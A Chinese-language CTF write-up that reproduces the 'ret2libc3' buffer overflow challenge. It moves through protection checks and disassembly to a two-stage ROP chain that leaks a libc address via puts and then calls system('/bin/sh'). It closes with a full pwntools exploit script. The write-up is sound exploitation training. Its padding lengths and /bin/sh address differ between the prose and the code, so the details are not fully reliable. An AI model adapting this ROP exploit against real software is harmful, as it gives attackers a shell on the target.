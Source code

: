 ## ret2libc3复现与分析

### 技术点

- checksec检查可执行文件与内核安全属性
- 使用反汇编工具（IDA pro）查找缓冲区溢出入口和可利用的源码片段
- 使用二进制调试工具（gdb）查看寄存器与内存内容
- 泄露共享库基地址
- 通过 got 表泄露共享库中函数的偏移地址
- 利用gadgets构造栈帧，通过ROP调用系统调用
- 计算需要覆写的返回地址的偏移
- payload构造

### 分析

首先通过checksec检查可执行文件的保护机制

![image-20230424205804407](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304242058445.png)

能够得知以下信息：

- 可执行文件为是一个32位的英特尔x86可执行文件，使用小端序编码。
- 开启了“部分Relocation Read-Only”技术。
- 没有开启“堆栈金丝雀（stack canary）”技术。
- 开启了“No-eXecute”保护技术。
- 没有开启“独立位置可执行（Position Independent Executable）”技术。

接下来通过IDA pro查看反汇编反编译源码：

![image-20230424210152398](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304242101422.png)

可以看主函数中明显的缓冲区溢出漏洞入口`get(s)`，因此查找是否有可以利用的工具函数与字符串。但是没有在程序中查找到`/bin/sh`字符串或`system()`函数等易于利用的工具。根据本题要求，尝试利用外部的libc中比较齐全的代码。

想要利用作为外部共享库的libc，首先要考虑的就是其基地址，只有先泄露出动态链接库的基地址才能通过固定的偏移量调用库函数。仔细调查反汇编出的源码，发现在`main()`函数中调用了`puts()`函数，想到可以使用`puts()`函数泄露出libc基地址。

因此构思获得libc基地址的攻击流程如下：

1. 通过`gets()`构造缓冲区溢出攻击，劫持控制流。
2. 覆盖`main()`函数的返回地址为`puts()`函数的地址
3. 后续填入`main()`函数地址作为`puts()`函数的返回地址，以便`puts()`函数结束后重新运行`main()`函数
4. 后续填入got表中的`__libc_start_main`函数指针地址，以通过puts将动态运行时真实的`__libc_start_main`函数地址打印出来
5. 当`main()`函数执行完毕退出时，eip指针返回到`puts()`函数的地址并打印出`__libc_start_main`函数地址打。
6. 当`puts()`函数执行完毕，eip指针返回到`main()`函数的地址重新开始执行

接着需要通过`__libc_start_main`函数地址计算出libc基地址，从而获得`system`函数和"\bin\sh"字符串的地址。因此构思获得shell的攻击流程如下：

1. 接收上轮输出的`__libc_start_main`函数
2. 通过LibcSearcher工具计算出libc基地址以及进一步获得`system`函数和"\bin\sh"字符串的地址
3. 通过`gets()`构造缓冲区溢出攻击，劫持控制流。
4. 覆盖`main()`函数的返回地址为`system`函数的地址
5. 在后续填入一个32位的虚假返回地址
6. 在后续填入字符串`/bin/sh`的地址`0x08048720`
7. 当`main()`函数执行完毕退出时，eip指针返回到`system`函数的地址并读入后续的虚假返回地址和字符串参数，并最终启动一个子进程弹出shell供攻击者使用

### 攻击复现

接下来实现攻击，同上面题目，要先确定`main()`函数返回地址。

![image-20230424222544892](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304242225941.png)

![image-20230424222643207](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304242226263.png)

使用与上一题一样的步骤，在`call _gets`的地址`0x0804868A`处下断点，可以看到：栈指针寄存器esp此时的地址为`0xffffced0`，其存放的内容即字符串`s`的地址为`0xffffceec`；基址指针寄存器ebp的地址为`0xffffcf58`。通过计算可得，s 相对于 ebp 的偏移为 `0xffffcf58-0xffffceec=0x6c`。此时内存结构如下图所示：

![image-20230424105446557](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304242227356.png)

根据上述思路编写第一轮运行的payload，构造内存结果如下：

![image-20230424223159342](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304242231377.png)

接下来因为程序重新从main开始运行，因此继续需要继续构造第二轮运行的payload，需构造内存结果如下：

![image-20230424223330737](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304242233774.png)

最后的payload如下：

```python
from pwn import *
from LibcSearcher import LibcSearcher

elf_ret2libc3 = ELF('./ret2libc3')

sh = process('./ret2libc3')

plt_puts = elf_ret2libc3.plt['puts']
got_libc_start_main = elf_ret2libc3.got['__libc_start_main']
addr_main = elf_ret2libc3.symbols['main']
offset = 0x6c + 4

payload = flat([b'a' * offset, plt_puts, addr_main, got_libc_start_main])
sh.sendlineafter('Can you find it !?', payload)
libc_start_main_addr = u32(sh.recv(4))

print('libc_start_main_addr: ' + hex(libc_start_main_addr))

libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print("get shell")
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()
```

运行payload脚本，可以成功得到shell。

![image-20230424223451333](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304242234368.png)
